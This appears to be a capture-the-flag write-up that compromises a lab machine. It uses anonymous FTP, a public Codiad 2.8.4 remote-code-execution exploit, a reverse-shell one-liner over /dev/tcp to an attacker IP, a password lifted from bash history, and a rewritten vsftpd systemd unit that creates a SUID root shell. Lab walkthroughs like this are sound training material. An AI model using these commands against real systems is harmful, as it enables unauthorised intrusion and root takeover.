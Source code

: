 
##Footprinting
first of all as always, we begin with an nmap scan 
```
Command used: nmap -sC -sV -p- -oN scan -T4 -P0 10.10.45.157
```

so from the result of our scan we can see that we a couple of ports open on our target machine.
- 21 - FTP
- 22 - SSH
- 80 -HTTP(Apache)
- 62337 - (Apache)
![[1.png]]

##Enumerating FTP(port 21)

so on port 21 we have anonymous login enabled. lets start by checking that out.
```
Command used: ftp <target IP>
Username: Anonyomus
Password: <Leave_blank>
```

![[2.png]]
from listing all directories we found a file called ***-*** let's download it to our machine.
```
command used: cd ...
get -
```

now lets cat out the content of the file :
```
cp - file
cat file
```
![[w.png]]
so from the content of the file we now have a Username and password.
username: john
password: password

##Enumerating HTTP(Port 80 and 62337)
since we have a web server running on port 80, lets head over to our web browser.
![[3.png]]

we have a default server page. so let's have try to enumerate for sub directories using Gobuster to see what we can find.

```
command used: gobuster dir -u http://10.10.164.209/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
so i ran the scan for a while and found nothing interesting now lets move to the next apache server.

so heading over to the server on our browser we see a login screen ![[5.png]]

earlier on from our nmap scan we could the that the server runs the following application ***Codiad 2.8.4*** . let's try  looking up this application on google.
![[6.png]]
from our result we can see that this version of the application is vulnerable to ***Remote Code Execution***. now using this information let's try to get a foothold on the target machine.

we can download the exploit from here [[https://www.exploit-db.com/exploits/49705]]  or you can simply use the searchsploit tool on your kali machine.
![[7.png]]

to get the exploit  script using searchsploit use the following command:
```
 searchsploit -m 49705 
```

![[8.png]]

to run this exploit code we can make use of the following command: 
```
python 49705.py http://10.10.164.209:62337/ john password <Target_IP> 4444 linux

```
![[9.png]]
next we must ensure we have set up our listener using netcat: 
command used : 
```
echo 'bash -c "bash -i >/dev/tcp/<local_machine_IP>/4445 0>&1 2>&1"' | nc -lnvp 4444

```
![[10.png]]
setup another listener 
```
command used: nc -lnvp 4445
```

with all this setup we can now run the exploit.
![[11.png]]
we have successfully gained a shell but we faced a challenge while trying to get the user flag. it appears that the user.txt file can only be access by the owner of the file called "drac". now lets find a way to horizontally escalate our privilege to the user drac.

to do this we can check the bash history file located in drac's directory 

```
command used: cd drac
ls -la
cat .bash_history
```
![[12.png]]
we found drac's password in the history file now let's try to login via ssh with  the credentials.

![[13.png]]
we successfully logged in as drac now let's view the file 
```
command used: cat user.txt
```
![[14.png]]

##Privilege Escalation 
so if we run the id command we can see that drac is a part of the sudo group.- `drac` can run the following command with sudo – `/usr/sbin/service vsftpd restart`
- `drac` can write to the vsftpd.service file – `/lib/systemd/system/vsftpd.service`

- `/etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf` contains `AdminIdentities=unix-group:sudo;unix-group:admin` (Default in Ubuntu)![[15.png]]
Since 'drac' belongs to the sudo group, we can utilize Ubuntu's default Polkit rule to elevate our privileges.

now since we have privilege to edit the vsftpd service file, we can modify the file to run the following command:
- `cp /bin/bash /tmp/root_shell`
- `chmod +xs /tmp/root_shell`
This sequence of commands duplicates `/bin/bash` to `/tmp/root_shell` and configures the Set User ID (SUID) bit on it. This would enable us to execute the binary with the privileges of its owner, namely root.

Here is the revised process:

1. Edit the file located at `/lib/systemd/system/vsftpd.service`.
2. Insert the following code into the file:
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

![[16.png]]

once you have made changes to the file save and restart the daemon using the following command: `systemctl daemon-reload`
![[17.png]]

As a result, we were able to initiate our customized service by executing `sudo /usr/sbin/service vsftpd restart`. As anticipated, a file named `root_shell` was present within the `/tmp` directory. We utilized this file to spawn a root shell by executing `./tmp/root_shell -p`.


![[18.png]]

and finally we are root!!!!!
